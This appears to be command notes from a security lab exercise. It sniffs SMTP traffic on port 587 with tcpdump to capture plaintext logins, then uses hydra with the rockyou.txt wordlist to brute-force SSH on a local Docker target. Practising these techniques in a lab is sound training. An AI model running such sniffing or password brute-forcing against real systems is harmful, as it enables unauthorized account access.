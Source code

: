 attack_is_the_best_defense
1. sniffing
tcpdump --list-interfaces
tcpdump --interface any -nn port 587
tcpdump --interface any -nn port 587 -w packets.pcap ------------------------ run at the same time ------> ./user_authenticating_into_server
cat packets.pcap
tcpdump -nn -A -r packets.pcap

2. hydra and rockyou.txt
snap install docker
docker run -p 2222:22 -d -ti sylvainkalache/264-1
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
cat rockyou.txt | head -n 10
hydra -l sylvain -P ./rockyou.txt ssh://127.0.0.1 -s 2222 -V -F
